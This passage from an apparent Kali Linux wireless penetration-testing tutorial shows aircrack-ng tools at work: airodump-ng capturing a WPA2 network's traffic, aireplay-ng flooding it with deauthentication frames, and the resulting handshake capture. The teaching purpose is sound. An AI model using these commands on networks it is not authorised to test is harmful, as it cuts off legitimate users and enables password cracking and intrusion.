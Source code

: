 ```
 F8:79:0A:D5:24:3C  EE:D4:09:15:FE:54   -1   12e- 0      0        8                     
```

This output provides all the necessary information for the next two parts of the attack: the `BSSID` and `CH`.
```
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID       
 1A:36:2A:2E:D0:E0  -56        4        0    0   1  360   WPA2 CCMP   PSK  AP      
```

### Capturing Target WiFi Network Traffic
Now, let's start a new `airodump-ng` session, capturing only traffic from the specified access point.

```
drew@kali:~$ sudo airodump-ng wlan0mon --bssid 1A:36:2A:2E:D0:E0 --channel 1 -w netcap 
```

### Deauthenticating WiFi Clients
Open a new terminal window and run the following command to continuously send deauthentication frames to all clients on the target network. The `--deauth 0` argument instructs the tool to send deauth frames indefinitely until you stop the process with CTRL+C, while the `-a` option specifies the router's BSSID.

```
drew@kali:~$ sudo aireplay-ng --deauth 0 -a 1A:36:2A:2E:D0:E0 wlan0mon                        
22:37:44  Waiting for beacon frame (BSSID: 1A:36:2A:2E:D0:E0) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
22:37:44  Sending DeAuth (code 7) to broadcast -- BSSID: [1A:36:2A:2E:D0:E0]
22:37:45  Sending DeAuth (code 7) to broadcast -- BSSID: [1A:36:2A:2E:D0:E0]
22:37:45  Sending DeAuth (code 7) to broadcast -- BSSID: [1A:36:2A:2E:D0:E0]
22:37:46  Sending DeAuth (code 7) to broadcast -- BSSID: [1A:36:2A:2E:D0:E0]
22:37:46  Sending DeAuth (code 7) to broadcast -- BSSID: [1A:36:2A:2E:D0:E0]
22:37:47  Sending DeAuth (code 7) to broadcast -- BSSID: [1A:36:2A:2E:D0:E0]
22:37:47  Sending DeAuth (code 7) to broadcast -- BSSID: [1A:36:2A:2E:D0:E0]
```

#### Confirming the Handshake was Captured
Return to your `airodump-ng` session and monitor for the WPA handshake message. Once the handshake is captured, you can safely terminate both the `airodump-ng` and `aireplay-ng` sessions by pressing CTRL+C.

```
 CH  1 ][ Elapsed: 1 min ][ 2025-02-17 22:38 ]**[ WPA handshake: 1A:36:2A:2E:D0:E0]**                                                                                                             
                                                                                                                                                                                             
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                         
                                                                                                                                                                                             
 1A:36:2A:2E:D0:E0  -63 100      389       10    0   1  360   WPA2 CCMP   PSK  AP                                                                                                            
                                                                                                                                                                                             
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                                                                                           
                                                                                                                                                                                             
 1A:36:2A:2E:D0:E0  E8:B0:C5:31:E7:E7  -48    1e- 6e     0       22  EAPOL           
```

